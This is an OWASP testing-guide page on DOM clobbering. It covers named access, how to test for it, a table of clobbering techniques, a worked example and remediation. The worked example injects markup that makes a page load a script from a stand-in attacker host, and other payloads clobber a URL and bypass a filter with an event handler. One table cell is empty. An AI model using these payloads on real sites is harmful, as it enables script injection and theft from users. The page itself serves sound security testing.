

# DOM Clobbering

|ID          |
|------------|
|WSTG-CLNT-16|

## Summary

Browsers expose some HTML elements as properties of JavaScript objects, a legacy feature known as named access:

- Every element with an `id` attribute becomes a property of the global `window` object. The `name` attribute of `embed`, `form`, `img`, and `object` elements does the same.
- The `name` attribute of `embed`, `form`, `iframe`, `img`, and `object` elements creates a property on the `document` object. Unlike the `window` properties, these named properties take precedence over the built-in properties of `document`.
- The controls inside a `form` element, such as `input`, are exposed as properties of that form by their `id` or `name`, and also take precedence over the built-in properties of the form.

For example, the markup `<a id="config"></a>` makes `window.config` refer to that anchor element, even though no script ever defined a `config` variable. The [HTML specification](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object) itself warns that relying on this behavior leads to brittle code.

DOM clobbering is an attack that abuses named access. The attacker injects markup with chosen `id` or `name` values so that a variable or property the application's JavaScript reads now refers to an attacker-controlled element instead of the expected value, or instead of being undefined. This is possible when the application:

- Allows users to supply HTML, such as comments, profile descriptions, rich text editors, or Markdown renderers, and keeps the `id` and `name` attributes. Many HTML sanitizers allow these attributes by default because they cannot execute code on their own.
- Contains scripts that read a global variable or a `document` or form property that may not be defined, and use it in a security-sensitive operation.

Since the attack only needs HTML, it works in places where script injection is blocked. Depending on how the clobbered value is used, the impact includes:

- [Cross-site scripting (XSS)](01-DOM-based_Cross_Site_Scripting.md), for example when the value becomes the `src` of a script.
- An [open redirect](04-Client-side_URL_Redirect.md) when the value is assigned to `location`.
- Bypassing client-side security checks, such as `if (window.isAdmin)`.
- Bypassing client-side HTML filters by breaking the properties they rely on, such as `attributes`.
- Bypassing a Content Security Policy that uses `strict-dynamic`, when a trusted script loads a URL taken from a clobbered value, as described in [Bypassing CSP via DOM Clobbering](https://portswigger.net/research/bypassing-csp-via-dom-clobbering).

A known example is the XSS in Gmail's dynamic email feature (AMP4Email) [reported by Michał Bentkowski in 2019](https://research.securitum.com/xss-in-amp4email-dom-clobbering/), which used DOM clobbering to get around the feature's XSS protections.

DOM clobbering only affects references that the application has not defined itself. A global declared with `var` or `function` takes precedence over an element with the same `id`, both as a variable and as a property of `window`. A variable declared with `let` or `const` is not a property of `window`: code that refers to it by name gets the declared value, but `window.x` still returns the element.

## Test Objectives

- Identify injection points where user-supplied HTML keeps its `id` or `name` attributes.
- Identify scripts that read global variables, `document` properties, or form properties that may be undefined, and pass them to sensitive operations.
- Assess whether clobbering those references changes the behavior of the application.

## How to Test

### Black-Box Testing

#### Identify Injection Points That Keep the `id` and `name` Attributes

Find every place where user input is rendered as HTML, as described in [HTML Injection](03-HTML_Injection.md). For each injection point, submit a harmless probe with a unique value:

```html
<a id="wstgprobe" name="wstgprobe" href="https://example.com/wstgprobe">probe</a>

```

Then open the page where the input is rendered and check the result in the browser developer tools:

- In the Elements panel, check which attributes survived sanitization.
- In the Console, evaluate `window.wstgprobe` and `document.wstgprobe2`. If either returns an element instead of `undefined`, the injection point can clobber references.

Sanitizers may remove specific values while keeping the attribute. For example, [DOMPurify](https://github.com/cure53/DOMPurify) removes `id` and `name` values that clash with built-in `document` or form properties, such as `cookie` or `action`, but keeps values such as `config`. Since the result depends on the value, also test the names that the application actually reads, as described in the next section.

#### Identify Clobberable References

Review the JavaScript loaded by the page, using the Sources panel of the developer tools to format minified code. Look for references that may be undefined, especially in the following patterns:

- Default values taken from a global, such as `const config = window.config || {};`
- Checks that only test whether a global exists, such as `if (window.isAdmin)` or `if (typeof debugMode !== "undefined")`. An element is truthy and its type is `"object"`, so both checks pass once the global is clobbered.
- Properties read from `document` by name, such as `document.settings`.
- Code that reads built-in properties of a form or element that may contain user markup, such as `form.action` or `element.attributes`.

Then follow each candidate to its sink. Sinks of interest include the `src` of `script` or `iframe` elements, assignments to `location`, `href` attributes, `innerHTML`, and functions that execute strings such as `eval()` or `setTimeout()`. The DOM clobbering mode of [DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-clobbering) can automate the search for clobberable references that reach a sink.

#### Clobbering Techniques

Once a reference and an injection point are known, choose the markup that gives the reference the value the attack needs.

|Technique|Example markup|Result|
|---------|--------------|------|
|Single global|`<a id="x">`|`window.x` is the anchor element.|
|Controlled string value|`<a id="x" href="https://attacker.example/">`|`String(window.x)` returns the `href` value.|
|Second-level property|`<a id="x"><a id="x" name="y" href="https://attacker.example/">`|`window.x` is an `HTMLCollection` and `String(window.x.y)` returns the `href` value.|
|Form controls|`<form id="x"><input id="y">`|`window.x.y` is the input element.|
|Built-in `document` property|``|`document.cookie` returns the image element instead of the cookies.|
|Built-in form property|`<form id="x"><input id="attributes">`|`window.x.attributes` returns the input element instead of the list of attributes.|

Some details of these techniques matter when choosing a payload:

- Most elements convert to a string such as `[object HTMLInputElement]`. An `a` element converts to the value of its `href` attribute instead, which makes it the usual choice when the reference is used as a string, for example as a URL. This includes `javascript:` URLs.
- When two or more elements share the same `id`, the global refers to an `HTMLCollection`. The `name` attribute of an element in the collection then becomes a property of the collection, which allows controlling a property one level deeper.
- Clobbering a built-in property of a form can break filters that inspect it. For example, a filter that removes event handlers by looping over `form.attributes` skips the `onclick` attribute of `<form onclick="alert(1)"><input id="attributes">`, because `attributes` is now an input element without a `length`.

#### Example: Clobbering a Script URL

Consider a page that renders user comments after sanitizing them with DOMPurify in its default configuration, and that loads an optional script with the following code:

```javascript
const config = window.config || {};
const script = document.createElement("script");
script.src = config.url || "/static/default.js";
document.body.appendChild(script);
```

The application never defines `window.config`, so it normally loads `/static/default.js`. An attacker posts the following comment:

```html
<a id="config"></a><a id="config" name="url" href="https://attacker.example/evil.js"></a>
```

The sanitizer keeps the comment unchanged, since it only contains anchor elements with `id`, `name`, and `href` attributes. On the page where the comment is shown:

1. The two elements share the `id` `config`, so `window.config` is an `HTMLCollection`.
2. `config.url` is the anchor with `name="url"`.
3. Assigning it to `script.src` converts the anchor to a string, which is its `href` value.
4. The browser loads and runs `https://attacker.example/evil.js` in the context of the application.

\
*Figure 4.11.16-1: DOM Clobbering Attack Flow*

To demonstrate the issue without running external code, evaluate `String(config.url)` in the browser console after the comment is rendered. It returns the attacker's URL instead of `undefined`.

### Gray-Box Testing

With access to the client-side source code and the sanitizer configuration, check that:

- Code that runs on pages with user-supplied HTML declares its variables explicitly and refers to them directly, rather than reading them as properties of `window` or `document`.
- Values read from `window`, `document`, or a form are validated before use, for example with `typeof value === "string"` or `instanceof`, rather than only checked for existence.
- The sanitizer configuration does not allow `id` and `name` attributes in user content unless they are needed. If they are needed, check whether the sanitizer isolates them, for example with the `SANITIZE_NAMED_PROPS` option of DOMPurify, which adds the prefix `user-content-` to these values. Also check that DOMPurify's `SANITIZE_DOM` option, which is enabled by default, has not been turned off.
- Custom or client-side HTML filters do not rely on properties such as `attributes`, `childNodes`, or `nodeName` without checking that they have not been clobbered.

## Remediation

- Declare variables explicitly and refer to them directly instead of reading undefined globals, and avoid patterns such as `window.x || {}`.
- Validate the type of values read from the DOM before passing them to a sink.
- Sanitize user-supplied HTML with a library that protects against DOM clobbering, and isolate user-supplied `id` and `name` values from the application's own names.

See the [DOM Clobbering Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html) for details.

## Tools

- [Burp Suite - DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-clobbering)
- Browser developer tools (Elements, Sources, and Console panels)

## References

### OWASP Resources

- [DOM Clobbering Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)

### Whitepapers and Articles

- [PortSwigger Web Security Academy: DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [Gareth Heyes: Bypassing CSP via DOM Clobbering](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [Michał Bentkowski: XSS in AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
- [HTML Living Standard: Named Access on the Window Object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [HTML Living Standard: Document Named Properties](https://html.spec.whatwg.org/multipage/dom.html#dom-document-nameditem)
- [DOMPurify](https://github.com/cure53/DOMPurify)
